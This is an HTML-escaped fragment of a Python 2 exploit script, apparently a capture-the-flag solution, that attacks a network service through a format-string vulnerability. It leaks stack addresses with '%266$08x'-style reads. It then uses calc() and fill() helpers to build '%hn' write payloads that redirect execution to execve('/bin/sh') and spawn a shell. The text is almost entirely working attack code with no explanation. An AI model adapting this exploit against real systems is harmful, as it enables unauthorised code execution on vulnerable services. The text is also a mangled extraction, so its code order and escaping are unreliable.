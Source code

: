 s.send(&#39;2n&#39;)
s.recv(4096)
s.send(&#39;0x%266$08x&nbsp;0x%265$08x&nbsp;0x%267$08xn&#39;)
s.recv(4096)
s.send(&#39;3n&#39;)
ret&nbsp;=&nbsp;s.recv(4096)
while&nbsp;ret.find(&#39;0x&#39;)&nbsp;==&nbsp;-1:
&nbsp;&nbsp;&nbsp;&nbsp;ret&nbsp;+=&nbsp;s.recv(4096)

pos&nbsp;=&nbsp;ret.find(&#39;0x&#39;)
ebp&nbsp;=&nbsp;int(ret[pos&nbsp;+&nbsp;2:pos&nbsp;+&nbsp;10],&nbsp;16)

#&nbsp;bin_sh_pos&nbsp;=&nbsp;binascii.hexlify(binascii.unhexlify(hex(ebp&nbsp;-&nbsp;0x30&nbsp;-&nbsp;0x40c&nbsp;+&nbsp;0x60&nbsp;+&nbsp;300)[2:])[::-1])
bin_sh_pos&nbsp;=&nbsp;binascii.hexlify(binascii.unhexlify(hex(ebp&nbsp;-&nbsp;0x30&nbsp;+&nbsp;0x14&nbsp;+&nbsp;8)[2:])[::-1])
first&nbsp;=&nbsp;calc(ebp&nbsp;-&nbsp;0x30&nbsp;+&nbsp;4)
#&nbsp;second&nbsp;=&nbsp;fill(0x60,&nbsp;&#39;e0840408&#39;&#39;9f880408&#39;&nbsp;+&nbsp;bin_sh_pos&nbsp;+&nbsp;&#39;2f62696e2f736800&#39;)
#&nbsp;second&nbsp;=&nbsp;fill(0x60,&nbsp;execve_pos&nbsp;+&#39;9f880408&#39;&nbsp;+&nbsp;bin_sh_pos)
second&nbsp;=&nbsp;fill(0x80,&nbsp;&#39;e0840408&#39;&nbsp;+&nbsp;execve_pos&nbsp;+&nbsp;bin_sh_pos&nbsp;+&nbsp;bin_sh_pos&nbsp;+&nbsp;&#39;00&#39;&nbsp;*&nbsp;8&nbsp;+&nbsp;&#39;2f62696e2f736800&#39;)

s.send(&#39;2n&#39;)
s.recv(4096)
s.send(first&nbsp;+&nbsp;second&nbsp;+&nbsp;&nbsp;&#39;a&#39;&nbsp;*&nbsp;(400&nbsp;-&nbsp;len(second))&nbsp;+&nbsp;&#39;n&#39;)
s.recv(4096)
s.send(&#39;3n&#39;)
ret&nbsp;=&nbsp;s.recv(4096)

def&nbsp;calc(addr):
&nbsp;&nbsp;&nbsp;&nbsp;payload&nbsp;=&nbsp;&#39;&#39;
&nbsp;&nbsp;&nbsp;&nbsp;for&nbsp;pos&nbsp;in&nbsp;xrange(addr,&nbsp;addr&nbsp;+&nbsp;32):
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;payload&nbsp;+=&nbsp;chr(int(hex(pos&nbsp;&&nbsp;0xff)[2:4],&nbsp;16))
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;payload&nbsp;+=&nbsp;chr(int(hex(pos&nbsp;&&nbsp;0xff00)[2:4],&nbsp;16))
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;payload&nbsp;+=&nbsp;chr(int(hex(pos&nbsp;&&nbsp;0xff0000)[2:4],&nbsp;16))
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;payload&nbsp;+=&nbsp;chr(int(hex(pos&nbsp;&&nbsp;0xff000000)[2:4],&nbsp;16))
&nbsp;&nbsp;&nbsp;&nbsp;return&nbsp;payload

def&nbsp;fill(last,&nbsp;aim):
&nbsp;&nbsp;&nbsp;&nbsp;payload&nbsp;=&nbsp;&#39;&#39;
&nbsp;&nbsp;&nbsp;&nbsp;num&nbsp;=&nbsp;7
&nbsp;&nbsp;&nbsp;&nbsp;zero&nbsp;=&nbsp;265
&nbsp;&nbsp;&nbsp;&nbsp;for&nbsp;i&nbsp;in&nbsp;xrange(0,&nbsp;len(aim),&nbsp;2):
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;now&nbsp;=&nbsp;int(aim[i:i&nbsp;+&nbsp;2],&nbsp;16)
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;if&nbsp;now&nbsp;!=&nbsp;last:
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;if&nbsp;now&nbsp;&lt;&nbsp;last:
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;now&nbsp;+=&nbsp;0x100
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;payload&nbsp;+=&nbsp;&#39;%&#39;&nbsp;+&nbsp;str(zero)&nbsp;+&nbsp;&#39;$&#39;&nbsp;+&nbsp;str(now&nbsp;-&nbsp;last)&nbsp;+&nbsp;&#39;x&#39;
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;last&nbsp;=&nbsp;now&nbsp;&&nbsp;0xff
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;payload&nbsp;+=&nbsp;&#39;%&#39;&nbsp;+&nbsp;str(num)&nbsp;+&nbsp;&#39;$hn&#39;
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;num&nbsp;+=&nbsp;1